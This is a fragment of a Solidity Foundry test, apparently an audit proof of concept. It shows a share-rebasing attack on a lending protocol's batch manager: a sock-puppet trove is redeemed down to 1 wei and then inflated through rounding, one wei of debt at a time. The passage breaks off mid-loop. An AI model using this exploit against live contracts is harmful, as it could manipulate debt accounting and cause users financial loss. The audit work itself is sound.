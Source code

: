 ```solidity


        // === 1: Setup Batch Rebase === ///

        // Open 2 troves so we get enough interest
        // 1 will be redeemed down to 1 wei
        uint256 ATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);
        // Sock Puppet Trove | Opened second so we can redeem this one | We need to redeem this one so we can inflate the precision loss
        uint256 BTroveId = openTroveAndJoinBatchManager(B, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);


        // MUST accrue to rebase shares
        // Limit to one block so this attack is basically unavoidable
        if(WITH_INTEREST) {
            vm.warp(block.timestamp + 12);
        }


        LatestBatchData memory b4Batch = troveManager.getLatestBatchData(address(B));

        // TODO: Open A, Mint 1 extra (forgiven to A)
        _addOneDebtAndEnsureItDoesntMintShares(ATroveId, A); /// @audit MED impact

        LatestBatchData memory afterBatch = troveManager.getLatestBatchData(address(B));

        assertEq(b4Batch.entireDebtWithoutRedistribution + 1, afterBatch.entireDebtWithoutRedistribution, "Debt is credited to batch");
        
        // Closing A here will credit to B and Batch, that's ok but not enough
        LatestTroveData memory trove = troveManager.getLatestTroveData(BTroveId);
        uint256 bEntireDebtB4 = trove.entireDebt;

        vm.startPrank(A);
        collateralRegistry.redeemCollateral(bEntireDebtB4, 100, 1e18); // 2 debt, 1 share (hopefully)
        vm.stopPrank();

        uint256 sharesAfterRedeem = _getBatchDebtShares(BTroveId);
        assertEq(sharesAfterRedeem, 1, "Must be down to 1, rebased");

        // Let's have B get 1 share, 2 debt | Now it will be 1 | 1 because A is socializing that share
        LatestTroveData memory bAfterRedeem = troveManager.getLatestTroveData(BTroveId);
        assertEq(bAfterRedeem.entireDebt, 1, "Must be 1, Should be 2 for exploit"); // NOTE: it's one because of the division on total shares

        // Close A (also remove from batch is fine)
        closeTrove(A, ATroveId); 

        // Now B has rebased the Batch to 1 Share, 2 Debt
        LatestTroveData memory afterClose = troveManager.getLatestTroveData(BTroveId);
        assertEq(afterClose.entireDebt, 2, "Becomes 2"); // Note the debt becomes 2 here because of the round down on what A needs to repay

    
        // === 2: Rebase to 100+ === //
        // We need to rebase to above 100
        uint256 x;
        while(x++ < 100) {
            // Each iteration adds 1 wei of debt to the Batch, while leaving the Shares at 1
```